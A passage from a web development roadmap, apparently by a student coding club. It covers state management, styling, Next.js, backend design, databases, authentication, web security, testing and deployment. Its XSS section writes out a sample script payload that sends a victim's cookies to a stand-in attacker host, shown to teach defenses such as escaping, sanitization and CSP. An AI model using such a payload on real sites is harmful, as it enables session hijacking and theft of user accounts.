```

* **Server state vs client state**: Server state (API data) is cached, stale-prone, and shared — TanStack Query owns it. Client state (theme, open modals, draft inputs) is ephemeral and UI-local — components own it. Confusing the two is the root of most state-management pain.

### 9.5 Client State: Zustand

For global client state (theme, session, UI preferences), **Zustand** is the lightweight modern standard — the same library the React Native roadmap recommends:

```typescript
import { create } from 'zustand';
import { persist, createJSONStorage } from 'zustand/middleware';

interface ThemeState {
  themeMode: 'dark' | 'light' | 'system';
  setThemeMode: (mode: 'dark' | 'light' | 'system') => void;
}

export const useTheme = create<ThemeState>()(
  persist(
    (set) => ({
      themeMode: 'system',
      setThemeMode: (mode) => set({ themeMode: mode }),
    }),
    { name: 'cc-theme', storage: createJSONStorage(() => localStorage) }
  )
);
```

---

## 10. Stage 9: Styling & Design Systems

* **Tailwind CSS v4**: The utility-first standard. Version 4 rebuilt the engine in Rust (**Oxide**) with CSS-first configuration — theme tokens live in your stylesheet via `@theme`, no `tailwind.config.js` needed for most projects:

```css
/* app.css — Tailwind v4 CSS-first configuration */
@import "tailwindcss";

@theme {
  --color-brand: #e67e22;
  --color-brand-dark: #b3541a;
  --font-display: "Inter", sans-serif;
  --radius-card: 1rem;
}
```

```tsx
// Tokens become utilities automatically — no config file, no rebuild magic
<article className="rounded-card border border-gray-500/20 bg-white p-6 dark:bg-gray-900">
  <h3 className="font-display text-lg font-bold text-brand">CC Pulse</h3>
</article>
```

* **When Tailwind, when CSS Modules**: Tailwind for application UI velocity and consistency; CSS Modules or vanilla CSS for component libraries and highly custom designs.
* **Dark mode**: The `dark:` variant keyed off a `dark` class (toggled by your theme store) plus `prefers-color-scheme` as the default — the exact pattern the CC website itself uses.
* **Design Systems Thinking**: Learn spacing scales, color tokens, and typography scales — components built from tokens stay consistent as the app grows.
* **Component Libraries**: shadcn/ui (Tailwind + React, copy-paste components you own) is the current default for production dashboards; use it to learn composition rather than fighting prebuilt themes. Every major framework has an equivalent component ecosystem — Vue has PrimeVue and Vuetify, Svelte has Skeleton, Angular has Angular Material.

---

## 11. Stage 10: Meta-Frameworks & Full-Stack Frontends

A meta-framework wraps your component framework with routing, server rendering, and deployment conventions. **Next.js** is the React ecosystem's default — and its concepts (file routing, server rendering, per-route caching) map directly to Nuxt, SvelteKit, and Analog.

### 11.1 The App Router & React Server Components


graph TD
    Request["Incoming Request"] --> Router["App Router (file-based routes in app/)"]
    Router --> RSC["React Server Components<br/>Render on server, zero client JS cost"]
    Router --> ClientComps["Client Components ('use client')<br/>Interactive UI: forms, buttons, charts"]
    RSC --> HTML["Streamed HTML Response"]
    ClientComps --> Hydrate["Hydration on the client"]


* **Server Components** render on the server and can fetch data directly — no client-side fetch waterfall, no API round-trip for the initial view:

```tsx
// app/projects/page.tsx — a Server Component: async data fetching, no useEffect
import { db } from '@/lib/database';

export default async function ProjectsPage() {
  const projects = await db.project.findMany({ orderBy: { stars: 'desc' } });

  return (
    <main>
      <h1>CC Projects</h1>
      {projects.map((project) => (
        <ProjectCard key={project.id} project={project} />
      ))}
    </main>
  );
}
```

* **Client Components** (marked `'use client'`) handle interactivity; the two compose freely — a server component renders the page shell, client components provide the interactive islands.
* **File conventions**: `page.tsx` (routes), `layout.tsx` (shared shells), `loading.tsx` (suspense fallbacks), `error.tsx` (error boundaries), `route.ts` (API endpoints).

```text
app/
├── layout.tsx            # Root layout: theme provider, navigation shell
├── page.tsx              # Home route (/)
├── projects/
│   ├── page.tsx          # /projects (Server Component list)
│   └── [id]/page.tsx     # /projects/123 (dynamic segment)
├── api/
│   └── projects/route.ts # REST endpoint: GET, POST /api/projects
├── loading.tsx           # Route-level suspense fallback
└── error.tsx             # Route-level error boundary
```

### 11.2 Choosing Rendering Per Route

* Marketing pages and documentation → **SSG/ISR** (fastest, CDN-cached).
* Personalized dashboards → **SSR or CSR** depending on interactivity.
* Use `next/image` for automatic image optimization (formats, sizing, lazy loading) and `next/font` for self-hosted fonts with zero layout shift — both eliminate entire classes of performance bugs.
* **Metadata & SEO**: Export `metadata` from layouts and pages — titles, descriptions, and Open Graph tags become type-checked code:

```tsx
export const metadata = {
  title: 'CC Projects — Computer Coding Club',
  description: 'Explore open-source projects built by CC MNNIT students.',
  openGraph: { images: ['/og/projects-banner.png'] },
};
```


**Next.js Is Powerful, Not Mandatory**: A React SPA (Vite + React Router + TanStack Query) is a complete, production-valid architecture — most dashboards and app-like products do not need server rendering. Reach for Next.js when SEO, content-heavy pages, or server-side data access genuinely matter. The same judgment applies to Nuxt and SvelteKit in their tracks.


---

## 12. Stage 11: Backend Development — An Engineering Discipline

Backend development is not "learn Express and MongoDB." It is a discipline with its own concerns: server architecture, API design, validation, authentication and authorization, data persistence, background processing, caching, observability, and secrets. Learn the discipline once; the language is a detail.

### 12.1 The Backend Concerns Every Server Must Handle

| Concern | What It Means | Typical Tools |
| :--- | :--- | :--- |
| **Routing & middleware** | Mapping URLs to handlers; cross-cutting logic (logging, auth) as composable layers | Express/Hono middleware, FastAPI dependencies |
| **Request validation** | Rejecting malformed/malicious input at the boundary | Zod, Pydantic, class-validator |
| **Authentication vs authorization** | *Who are you?* vs *what may you do?* | Sessions, JWT, OAuth; role/permission checks |
| **Error handling** | Structured errors, correct status codes, no leaked stack traces | Central error middleware |
| **Logging & observability** | Structured request logs, metrics, traces — debuggable in production | Pino, OpenTelemetry, Grafana Loki |
| **File uploads & storage** | Multipart handling, size limits, object storage | Multer, S3/R2/Cloudflare R2 |
| **Background jobs & queues** | Work outside the request lifecycle: emails, media processing, scheduled tasks | BullMQ (Redis), Celery, pg-boss |
| **Rate limiting & caching** | Protecting endpoints; avoiding repeat computation | Redis, token buckets, CDN caches |
| **Configuration & secrets** | Environment-driven config; secrets out of Git and out of client bundles | dotenv, platform secret stores |

Each concern is a stage-agnostic skill — the concepts survive every framework and language you will ever use.

### 12.2 The Node.js Track (Recommended CC Default)

Node.js is the practical primary path for students already learning JavaScript — the same language on both sides of the stack, and the same event-loop model you internalized in Stage 4. The current **LTS release** is the right choice for new projects; **Bun** is the notable modern alternative (a fast all-in-one runtime + package manager + test runner with growing ecosystem support).

* **HTTP servers**: Start with **Express** (timeless, minimal) or **Hono** (modern, TypeScript-first, runs on Node, Bun, and edge runtimes alike).
* **The non-blocking model you already know**: The browser event loop from Stage 4 *is* the Node.js model — a single JavaScript thread delegating I/O to the platform. Heavy CPU work gets offloaded to worker threads, exactly like browser code offloads to Web Workers.

```typescript
// routes/projects.ts — Express-style routes with validation
import { Router } from 'express';
import { z } from 'zod';

const createProjectSchema = z.object({
  title: z.string().min(3).max(80),
  description: z.string().max(500).optional(),
  repositoryUrl: z.string().url(),
});

const router = Router();

router.get('/projects', async (_req, res) => {
  const projects = await db.project.findMany({ orderBy: { stars: 'desc' } });
  res.json(projects);
});

router.post('/projects', async (req, res) => {
  // Validate untrusted input at the boundary — never trust req.body
  const parsed = createProjectSchema.safeParse(req.body);
  if (!parsed.success) {
    return res.status(422).json({ errors: parsed.error.flatten() });
  }
  const project = await db.project.create({ data: parsed.data });
  res.status(201).json(project);
});

export default router;
```

* **Resource-oriented routes**: `GET /projects`, `POST /projects`, `PATCH /projects/:id`, `DELETE /projects/:id` — nouns, not verbs.
* **Validation with Zod**: Parse, don't validate — one schema drives runtime validation *and* the TypeScript type (`z.infer<typeof createProjectSchema>`).
* **Correct status codes**: `201` on creation, `422` on validation failure, `401` when unauthenticated, `403` when unauthorized — clients (and your future self) depend on them.

### 12.3 The Multi-Language Backend Landscape

Backend engineering does not belong to JavaScript. Every major ecosystem powers the web — choose based on the domain, your existing skills, and the CC roadmaps you are following:

| Language | Popular Frameworks | Where It Shines |
| :--- | :--- | :--- |
| **JavaScript / TypeScript** (Node.js, **Bun**) | Express, Hono, NestJS, Fastify | Full-stack continuity with your frontend; edge runtimes; real-time apps |
| **Python** | **FastAPI** (modern, async, typed), **Django** (batteries-included) | APIs and ML-backed services (pairs with the [Machine Learning roadmap](@/roadmaps/machine-learning.md)); rapid development |
| **Java** | **Spring Boot** | Enterprise systems, large teams, strong typing at scale — see the dedicated [Java & Spring Boot Roadmap](@/roadmaps/java-spring-boot.md) |
| **Go** | Gin, Echo, Fiber | High-concurrency services, microservices, cloud infrastructure |
| **Rust** | **Axum**, Actix Web | Performance-critical APIs, memory safety, modern type-driven design — pairs with the Desktop roadmap's Tauri/Dioxus content |
| **PHP** | **Laravel** | Rapid full-stack development; enormous shared-hosting footprint |
| **Ruby** | Ruby on Rails | Convention-over-configuration product development |


**How to Choose**: Continuity argues for Node.js while you are learning frontend JavaScript in the same semester. Ambition argues for a second language once your first backend is deployed — FastAPI if you are doing machine learning coursework, Spring Boot if you are targeting enterprise placements, Axum if systems programming excites you. The discipline (Stage 12.1) is identical; only the syntax changes.


### 12.4 API Styles: When REST Is Not the Answer

REST is the right default — but knowing the alternatives makes you an informed API designer:

| Style | How It Works | When It Shines |
| :--- | :--- | :--- |
| **REST** | Resource-oriented URLs, HTTP verbs, JSON | Default choice: public APIs, CRUD apps, cacheable resources |
| **GraphQL** | Single endpoint; clients query exactly the fields they need | Aggregating many data sources; mobile clients minimizing payloads; rapidly evolving frontend needs |
| **tRPC** | TypeScript functions called end-to-end — no schema drift, types inferred from server to client | Full-stack TypeScript teams (pairs perfectly with Next.js) |
| **gRPC** | Binary protocol over HTTP/2 with protobuf contracts | Service-to-service communication inside backends; high-throughput internal RPC |
| **WebSockets / SSE** | Persistent bidirectional (WS) or one-way (SSE) streams | Chat, live dashboards, notifications, collaborative editing |

* **The trade-off REST makes**: Over-fetching (receiving fields you don't need) and under-fetching (needing multiple requests to compose one view). GraphQL solves both at the cost of caching complexity and server query-cost control.
* **The trade-off tRPC makes**: It couples client and server into one TypeScript codebase — type safety for free, but non-TS consumers need a separate API layer.
* **Start with REST.** Add GraphQL or tRPC when a genuine need appears, not for resume keywords.

---

## 13. Stage 12: Databases & Data Management

Databases deserve conceptual depth before product names. Every backend you will ever build spends most of its life talking to a database — understanding *what* a database does for you is more durable than any tool's API.

### 13.1 Relational vs. Document Models

* **Relational (SQL) databases** — PostgreSQL, MySQL, SQLite: data in tables with typed columns, relationships enforced by keys, queries in SQL. Best when your data is structured and relationships matter (users → projects → deployments).
* **Document databases** — MongoDB, Firestore: data as flexible JSON-like documents. Best when records vary in shape, embed naturally, and evolve quickly (content, catalogs, event logs).
* **The honest guidance**: PostgreSQL is the modern default for new applications — its JSONB column type covers most document-shaped needs *inside* a relational database. Reach for MongoDB deliberately (flexible schemas at scale), not by tutorial momentum.

### 13.2 SQL Fundamentals

```sql
-- Structured query language: the most durable skill in this entire roadmap
SELECT p.title, p.stars, u.name AS owner
FROM projects p
JOIN users u ON u.id = p.owner_id
WHERE p.stars > 100
ORDER BY p.stars DESC
LIMIT 10;

INSERT INTO projects (id, title, repository_url, owner_id)
VALUES ('proj_01', 'CC Website', 'https://github.com/CC-MNNIT/cc-website', 'usr_7f3');
```

* **Tables, keys & constraints**: Primary keys identify rows; foreign keys enforce relationships; `NOT NULL`/`UNIQUE`/`CHECK` constraints make bad data impossible at the schema level.
* **Joins & aggregation**: `JOIN` combines related tables; `GROUP BY` + `COUNT`/`SUM`/`AVG` aggregates them — the backbone of every dashboard query you will write.
* **Normalization**: Structure data to avoid duplication (one fact in one place) — with pragmatic denormalization where read performance demands it.

### 13.3 Indexes, Transactions & Operational Realities

* **Indexes**: Lookups without an index scan every row. Index the columns you filter and join on — and know that every index slows writes slightly.
* **Transactions & ACID**: Groups of operations that succeed or fail atomically. **ACID** (Atomicity, Consistency, Isolation, Durability) is why a payment either completes fully or not at all.
* **Migrations**: Schema changes are versioned code, applied in order, never hand-edited in production.
* **Connection management**: Servers pool database connections; opening one per request collapses under load.
* **Backups**: Databases without tested restore procedures are losses waiting to happen — the [SysAdmin roadmap's](@/roadmaps/sysadmin.md) 3-2-1 backup discipline applies directly.
* **ORMs**: **Prisma** (schema-first, excellent DX) or **Drizzle** (SQL-like, edge-friendly) — both type-safe, both PostgreSQL-first:

```prisma
// prisma/schema.prisma — schema as versioned code
model Project {
  id            String   @id @default(cuid())
  title         String
  description   String?
  repositoryUrl String
  stars         Int      @default(0)
  owner         User     @relation(fields: [ownerId], references: [id])
  ownerId       String
  createdAt     DateTime @default(now())
  updatedAt     DateTime @updatedAt
}

model User {
  id       String    @id @default(cuid())
  email    String    @unique
  name     String
  projects Project[]
}
```

* **Caching**: Redis for session storage, rate-limit counters, and expensive query memoization — the cache layer between your application and the database.

---

## 14. Stage 13: Full-Stack Integration

This is where every previous stage composes into one complete application. The individual pieces — components, APIs, databases, auth — are necessary but not sufficient: engineering a *system* means understanding how they connect, where state lives, and how data flows through the whole.

### 14.1 The Full-Stack Architecture

A production web application is a pipeline of cooperating layers, each with its own concerns and failure modes:


graph TD
    Browser["Browser (React SPA / SSR Pages)"] -->|"HTTPS"| CDN["CDN / Edge Cache<br/>(static assets, cached pages)"]
    CDN --> LB["Load Balancer / Reverse Proxy (Nginx)"]
    LB --> API1["API Server 1 (Node.js / FastAPI / Axum)"]
    LB --> API2["API Server 2"]
    API1 --> Cache["Redis<br/>(sessions, cache, rate limits)"]
    API1 --> DB["PostgreSQL<br/>(source of truth)"]
    API1 --> Queue["Job Queue (Redis / pg-boss)<br/>(emails, media processing)"]
    Queue --> Worker["Background Workers"]
    Worker --> DB
    Worker --> Mail["External Services (Email / S3 / Payment APIs)"]


* **Where state lives**: The database is the single source of truth; Redis holds ephemeral state (sessions, counters); the browser holds UI state. Every bug you will ever debug in a full-stack app is a question of "which layer owns this state, and who changed it?"
* **Horizontal scaling**: Stateless API servers can be replicated behind a load balancer — which is why sessions move *out* of server memory and into Redis.
* **The queue decouples**: Slow work (sending emails, resizing images, calling external APIs) moves out of the request path. The API responds in 50ms; the worker finishes the job in 30 seconds.

### 14.2 Authentication Flow, End-to-End

The single most-requested integration pattern — and the one most often implemented wrongly. Here is the complete session-based flow:


graph TD
    Login["1. User submits credentials (HTTPS POST)"] --> Verify["2. Server verifies bcrypt/argon2 hash"]
    Verify -->|"Valid"| Session["3. Create session row in store (Redis/DB)<br/>+ Set HTTP-only, Secure, SameSite cookie"]
    Verify -->|"Invalid"| Fail["4. 401 response + rate-limit check"]
    Session --> Request["5. Browser sends cookie automatically on every request"]
    Request --> Auth["6. Auth middleware validates session<br/>(cheap Redis lookup)"]
    Auth --> Authz["7. Authorization: role/permission check per route"]
    Authz -->|"Admin only"| Admin["Admin data"]
    Authz -->|"Owner only"| Own["Own resources (userId matches record)"]


* **Authentication ≠ authorization**: Authentication ("who are you?") happens once per session; authorization ("what may you do?") happens on *every* request. Conflating them is how "admin-only" routes end up protecting only the *link* to the admin page instead of the data behind it.
* **Authorization must be server-side**: Never trust a hidden route or a disabled button — the API checks ownership and roles on every request, because attackers call APIs directly.
* **Token variant**: For mobile clients or third-party APIs, issue short-lived JWT access tokens + long-lived refresh tokens instead of session cookies — same verification flow, different credential transport.
* **The code shape** (server side):

```typescript
// auth middleware — runs before every protected route
async function requireSession(req, res, next) {
  const sessionId = req.cookies.sessionId;          // HTTP-only cookie, unreadable to JS
  const session = await redis.get(`session:${sessionId}`);
  if (!session) return res.status(401).json({ error: 'Not authenticated' });

  req.user = JSON.parse(session);                   // { id, email, role }
  if (req.params.projectId) {
    // Authorization per resource: does this record belong to this user?
    const owns = await db.project.exists({ id: req.params.projectId, ownerId: req.user.id });
    if (!owns && req.user.role !== 'admin') {
      return res.status(403).json({ error: 'Not authorized' });
    }
  }
  next();
}
```

### 14.3 Real-Time Communication

| Mechanism | Direction | Complexity | Best For |
| :--- | :--- | :--- | :--- |
| **Polling** | Client pulls | Minimal | Dashboards tolerant of 30–60s staleness |
| **Server-Sent Events (SSE)** | Server → client, one-way | Low | Live feeds, notifications, streaming text |
| **WebSockets** | Bidirectional, persistent | Medium | Chat, collaborative editing, live games |

* **WebSockets in practice**: The server upgrade path (HTTP → WebSocket) plus a pub/sub layer (Redis pub/sub) when multiple server instances must broadcast to the same users:

```typescript
// Server (Node.js + ws): broadcast commit events to connected clients
import { WebSocketServer } from 'ws';

const wss = new WebSocketServer({ server });

wss.on('connection', (socket) => {
  socket.send(JSON.stringify({ type: 'hello', message: 'Connected to CC Pulse' }));
});

// Called from anywhere in the backend when data changes
export function broadcastProjectUpdate(project) {
  const payload = JSON.stringify({ type: 'project:update', project });
  for (const client of wss.clients) {
    if (client.readyState === 1) client.send(payload);
  }
}
```

* **Reconnection is your job**: Networks drop. Clients must retry with backoff and re-sync state on reconnect — or use libraries (Socket.IO, PartyKit) that handle it.

### 14.4 File Uploads & Object Storage

* **The flow**: Client picks file → uploads via multipart request (or direct-to-storage with a presigned URL) → server validates type/size → object stored in **S3/Cloudflare R2** → database stores metadata → served via CDN or signed URLs.
* **Never store uploads on the application server's disk** — ephemeral containers lose them, and disk I/O competes with request handling.
* **Validate aggressively**: MIME type, extension, and size limits on the server; resized/re-encoded where relevant (images via sharp, video via FFmpeg workers — see Milestone 5 in the desktop roadmap's family).

### 14.5 Background Jobs & Queues

* **The rule**: Anything slower than ~500ms, anything retriable, and anything time-scheduled belongs in a background job — not the request path.
* **Typical jobs**: welcome emails, PDF generation, webhook fan-out, database cleanup, nightly report exports.
* **Idempotency is mandatory**: Queues deliver *at least once* — your job must tolerate running twice (deduplication keys, upserts) or you will double-send emails.

### 14.6 Error Handling Across Layers

* **A consistent error contract**: Every server error returns the same shape (`{ error: { code, message, details? } }`) so the frontend renders failures uniformly.
* **Client-side error boundaries**: React error boundaries catch render crashes; TanStack Query's `isError` state handles data failures; Playwright E2E tests assert the error UI, not just the happy path.
* **Graceful degradation**: Offline states, retry with backoff, optimistic updates that roll back — the user experience when the network fails is part of the feature, not an afterthought.

---

## 15. Stage 14: Web Security — The Non-Negotiable Layer

A web application is attacked from the moment it touches the public internet. Security failures are reputation-destroying and, for student projects, interview-derailing. The [OWASP Top 10](https://owasp.org/www-project-top-ten/) is the canonical risk list — learn it early.

### 15.1 XSS — Cross-Site Scripting

The most common web vulnerability: attacker-controlled input rendered as HTML/JS in another user's browser.

* **The vector**: A comment containing `<script>fetch('https://evil.example?c=' + document.cookie)</script>` — if rendered as HTML, it executes in every viewer's session.
* **The defense**: Frameworks escape by default (React never renders raw HTML from strings). The moment you use `dangerouslySetInnerHTML`, sanitize with **DOMPurify**. Never build markup with string concatenation.
* **Content Security Policy (CSP)**: A response header whitelisting script sources, neutralizing injected code even when sanitization fails:

```text
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; frame-ancestors 'none'
```

### 15.2 CSRF — Cross-Site Request Forgery

An attacker's page makes the victim's browser silently submit a request to your site (the browser attaches cookies automatically).

* **The defense**: SameSite cookies (`SameSite=Lax` or `Strict` — the modern browser default), CSRF tokens on state-changing forms, and rejecting cross-origin mutations via CORS policy.
* **CORS awareness**: CORS does not *protect* your server — it protects users' browsers from reading your responses cross-origin (Stage 2). SameSite cookies plus server-side origin checks are what actually stop CSRF.

### 15.3 Dependency & Supply Chain Hygiene

* Your `node_modules` tree is attacker surface: audit with `npm audit` in CI, automate updates with Dependabot/Renovate, and review transitive-dependency alerts seriously.
* Secrets live in environment variables on the server — never in frontend bundles, never in Git history.


**The Frontend Secret Fallacy**: Anything bundled into client JavaScript — API keys, tokens, "hidden" admin URLs — is public. Minification is not obfuscation; every visitor can read your bundle. Client-side secrets are public secrets.


---

## 16. Stage 15: Testing — The Professional Divide

Testing is what separates tutorial projects from production engineering.

| Layer | Tool | What It Verifies |
| :--- | :--- | :--- |
| **Unit tests** | **Vitest** | Pure logic: formatters, reducers, API clients (mocking network with MSW) |
| **Component tests** | **Testing Library** (React/Vue/Angular variants) | Components render correctly and respond to user interaction |
| **End-to-end tests** | **Playwright** | Real browser flows: login → create project → verify persistence |

### 16.1 Unit Tests with Vitest

```typescript
// Vitest unit test for a pure function
import { describe, expect, it } from 'vitest';
import { formatStars } from './format-stars';

describe('formatStars', () => {
  it('abbreviates thousands', () => {
    expect(formatStars(1420)).toBe('1.4k');
  });

  it('returns raw count below 1000', () => {
    expect(formatStars(142)).toBe('142');
  });
});
```

### 16.2 Component Tests with Testing Library

```tsx
import { render, screen, fireEvent } from '@testing-library/react';
import { ProjectCard } from './ProjectCard';

test('ProjectCard toggles pin state', () => {
  const onTogglePin = vi.fn();
  render(<ProjectCard title="CC Website" stars={142} isPinned={false} onTogglePin={onTogglePin} />);

  // Query the way a user would — by role and name, not implementation details
  fireEvent.click(screen.getByRole('button', { name: /pin to top/i }));
  expect(onTogglePin).toHaveBeenCalledTimes(1);
});
```

* **Query like a user**: `getByRole`, `getByLabelText` — tests that survive refactors because they assert behavior, not internals.

### 16.3 End-to-End Tests with Playwright

```typescript
import { test, expect } from '@playwright/test';

test('contributor can pin a project and see it persist', async ({ page }) => {
  await page.goto('/projects');
  await page.getByRole('button', { name: /pin/i }).first().click();
  await expect(page.getByText('Pinned to top')).toBeVisible();

  // Reload — pinned state must survive because it lives on the server
  await page.reload();
  await expect(page.getByText('Unpin')).toBeVisible();
});
```

* **The pyramid**: many unit tests, fewer component tests, a small set of critical E2E flows.
* **CI integration**: Run the full suite on every pull request — see the [DevOps Roadmap](@/roadmaps/devops.md) for pipeline patterns.

---

## 17. Stage 16: Performance, Accessibility & SEO

### 17.1 Core Web Vitals

Google's user-experience metrics — and a direct ranking factor in search:

| Metric | Measures | Target | Primary Levers |
| :--- | :--- | :--- | :--- |
| **LCP** (Largest Contentful Paint) | How fast the main content appears | ≤ 2.5s | Image optimization, SSR/SSG, CDN delivery |
| **INP** (Interaction to Next Paint) | How responsive interactions feel | ≤ 200ms | Breaking long tasks, lighter JS, memoization |
| **CLS** (Cumulative Layout Shift) | Visual stability | ≤ 0.1 | Reserving space (`aspect-ratio`, explicit dimensions) |

### 17.2 Practical Performance Work

* **Measure first**: Chrome DevTools Performance panel and Lighthouse — never optimize blindly.
* **Bundle discipline**: Code splitting per route, `React.lazy` for heavy components, analyze bundles with `vite-bundle-visualizer`.
* **Images**: Serve modern formats (WebP/AVIF), responsive `srcset`, lazy-load below-the-fold media — images are usually the largest payload on content pages.
* **Network**: Cache headers (`Cache-Control`), compression (Brotli), and moving static assets to a CDN.
* **Fonts**: Self-host with `next/font` or `font-display: swap`; subset to used glyphs; never load four weights you do not use.
* **The three-cache mental model**: The browser caches assets (HTTP `Cache-Control`), your data layer caches responses (TanStack Query), and your server caches computation (Redis, CDN edges). Knowing which cache owns what prevents both duplicate work and stale-data bugs.

### 17.3 Accessibility Is Not Optional



* [ ] Every image has meaningful `alt` text (or `alt=""` when decorative).
* [ ] Every interactive element reachable and operable by keyboard (Tab / Enter / Escape).
* [ ] Visible focus indicators — never `outline: none` without a replacement.
* [ ] Color contrast meets WCAG AA (4.5:1 body text, 3:1 large text) in both themes.
* [ ] Form fields have associated `<label>` elements.
* [ ] Pages have one `h1` and a hierarchical heading outline.
* [ ] Dynamic updates announce politely via `aria-live` regions.
* [ ] Tested once with a real screen reader (NVDA on Windows, VoiceOver on macOS).


* Semantic HTML covers 80% (Stage 2 was not optional).
* **Test with a screen reader** at least once — it changes how you write HTML permanently.
* The W3C's [Web Accessibility Initiative resources](https://www.w3.org/WAI/) are the canonical deep-dive when you need more than the checklist.

### 17.4 SEO & Discoverability

* Semantic HTML and heading outlines (Stage 2) are the foundation; metadata (titles, descriptions, Open Graph) controls presentation.
* Server-rendered or statically-generated HTML remains the reliable path for content pages; meta-frameworks make this cheap (Stage 10).
* Structured data (`schema.org` JSON-LD) enriches search results with ratings, breadcrumbs, and event details.

---

## 18. Stage 17: Deployment & Production Operations

* **Static & SPA hosting**: Netlify, Cloudflare Pages, or GitHub Pages — free tier is plenty for student projects.
* **Full-stack hosting**: Vercel (Next.js-native), Cloudflare Workers, or a VPS running behind Nginx.

| Hosting Path | Best For | You Learn |
| :--- | :--- | :--- |
| **Netlify / Cloudflare Pages** | Static sites, SPAs, quick portfolio deploys | Git-push deploys, preview environments |
| **Vercel** | Next.js applications (native ISR/SSR support) | Edge rendering, preview deploys per PR |
| **VPS + Nginx** | Full-stack apps, databases, background workers | Linux, TLS, systemd, reverse proxies — the real machinery |

* **CI/CD**: GitHub Actions running lint, types, and tests on every push, deploying on merge to `main`:

```yaml
# .github/workflows/ci.yml — quality gate for every pull request
name: CI
on:
  push:
    branches: [main]
  pull_request:

jobs:
  verify:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: 22
          cache: npm
      - run: npm ci
      - run: npm run lint
      - run: npx tsc --noEmit
      - run: npm test -- --run
      - run: npm run build
```

* **Docker fundamentals**: Containerizing your application (and its database) so it runs identically everywhere — the gateway skill to the [DevOps Roadmap](@/roadmaps/devops.md).
* **Monitoring & error tracking**: Production is where errors surface — wire up an error tracker (Sentry) and uptime checks so you learn about failures before your users do.
* **Maintenance & technical debt**: Dependencies age, frameworks evolve, shortcuts accumulate. Schedule regular dependency updates and refactor-before-you-extend discipline.
* **Self-hosting is a superpower**: Running your own Nginx + TLS + systemd stack on a VPS teaches you what platforms automate — the [System Administration Roadmap](@/roadmaps/sysadmin.md) walks through it step by step.


**Own Your Production Path**: Deploy a real domain (free for students via the GitHub Education Pack) with HTTPS, custom CI, and monitoring. A live URL on your resume beats a local project every single time.


---

## 19. Eight Progressive Milestone Projects

Theory without building creates tutorial dependence. Work through these milestones in order — each one independently deployable and portfolio-worthy, each deliberately framework-flexible after Milestone 2:


graph TD
    M1["Milestone 1: Portfolio & Landing Pages<br/>Focus: Semantic HTML, Modern CSS, Accessibility, Deployment"] --> M2["Milestone 2: PulseMetrics Web Converter<br/>Focus: Vanilla JavaScript, Modules, LocalStorage"]
    M2 --> M3["Milestone 3: DevPulse GitHub Explorer<br/>Focus: Component Framework, TypeScript, Data Fetching"]
    M3 --> M4["Milestone 4: Chronicle Notes Full-Stack<br/>Focus: REST API, PostgreSQL, Auth, Validation"]
    M4 --> M5["Milestone 5: PulseBoard Analytics Dashboard<br/>Focus: Server Rendering, Charts, Real-Time, Web Vitals"]
    M5 --> M6["Milestone 6 (Capstone): OmniMarket Storefront<br/>Focus: ISR, Payments, Security, Testing, CI/CD"]


### Milestone 1: Personal Portfolio & Product Landing Pages
* **Goal**: Build and deploy your professional portfolio site and one pixel-faithful product landing page (recreate an Apple or Stripe product page layout).
* **Core Concepts**: Semantic HTML5, Flexbox/Grid layouts, responsive breakpoints, dark mode with custom properties, Lighthouse-passing accessibility, and first deployment to Netlify or GitHub Pages.
* **Stretch Goals**: Perfect 100 Lighthouse accessibility score; add a contact form with client-side validation and a success state.
* **Portfolio Value**: A live URL demonstrating layout discipline and accessibility fundamentals — no framework crutches.

### Milestone 2: PulseMetrics Web Converter
* **Goal**: An interactive unit and currency conversion tool in pure JavaScript — no framework.
* **Core Concepts**: ES modules, DOM manipulation, event handling, `fetch` against a public exchange-rate API, client-side persistence with `localStorage`, debounced search, and error states for offline usage.
* **Stretch Goals**: Cache last-known exchange rates for offline use; add keyboard navigation and unit presets.
* **Portfolio Value**: Proves you can build interactive software with zero abstractions — the foundation every framework stands on.

### Milestone 3: DevPulse GitHub Explorer
* **Goal**: A TypeScript single-page application exploring GitHub repositories with search, filters, and bookmarking.
* **Core Concepts**: Component framework fundamentals (React 19 recommended track — or Vue/Svelte from the parallel-tracks table), TanStack Query for API caching, global state for bookmarks, Tailwind CSS v4 styling, and component testing with Vitest + Testing Library.
* **Stretch Goals**: Infinite scroll with query pagination; dark/light theme via your persisted state store; 80%+ unit coverage on utility functions.
* **Portfolio Value**: Industrial-grade API consumption and typed component architecture — the exact stack the React Native roadmap builds on next.

### Milestone 4: Chronicle Notes Full-Stack
* **Goal**: A full-stack note-taking application with user accounts, markdown rendering, and full-text search.
* **Core Concepts**: REST API (Node.js + Express/Hono recommended — or FastAPI/Spring Boot from Stage 12's landscape), PostgreSQL accessed via an ORM, session-based authentication with hashed passwords, Zod/Pydantic-validated endpoints, and role-based access control.
* **Stretch Goals**: PostgreSQL full-text search; rate limiting on auth endpoints; sanitized markdown rendering (DOMPurify) — your first real XSS defense.
* **Portfolio Value**: Demonstrates complete full-stack ownership: schema design, auth security, and API engineering.

### Milestone 5: PulseBoard Analytics Dashboard
* **Goal**: A data-dense analytics dashboard with charts, live-updating metrics, and exportable reports.
* **Core Concepts**: Meta-framework with mixed rendering (server components for data, client components for charts), charting with a modern library, WebSocket or polling-based live updates, and Core Web Vitals optimization.
* **Stretch Goals**: All three Core Web Vitals in the "good" range on real hardware; CSV export; keyboard-navigable charts.
* **Portfolio Value**: Proves you can architect mixed-rendering applications and optimize real performance budgets.

### Milestone 6 (Capstone): OmniMarket Storefront
* **Goal**: A production-grade e-commerce storefront compiling from a single codebase: catalog, cart, checkout, and order history.
* **Core Concepts**:
  * ISR product pages with on-demand revalidation; SSR for personalized cart state.
  * Payment integration (Stripe test mode) with webhook order fulfillment.
  * PostgreSQL schema with migrations; seeded catalog data.
  * Authentication with role-based admin panel.
  * Security hardening: CSP headers, CSRF-safe mutations, audited dependencies.
  * Playwright E2E suite covering browse → cart → checkout → order confirmation.
  * GitHub Actions CI/CD pipeline: lint, type-check, test, deploy on merge.
* **Portfolio Value**: A definitive capstone proving complete full-stack mastery — rendering strategy, payments, security, testing, and automated deployment.


**The Milestone Contract**: Milestones 1 and 2 prove you understand the platform without frameworks. Milestones 3–6 prove you can engineer complete products. Every milestone is deployable, documented, and portfolio-ready — the concepts (data fetching, auth, caching, testing) transfer to whichever framework track you chose in Stage 8.


---

## 20. Curated Official Resources

Deepen your web mastery using these vetted, authoritative sources — a small number of high-quality references per topic, not an exhaustive dump:





























**Books** (for depth after the fundamentals):
* *Eloquent JavaScript* by Marijn Haverbeke — free online; the best-written JS introduction.
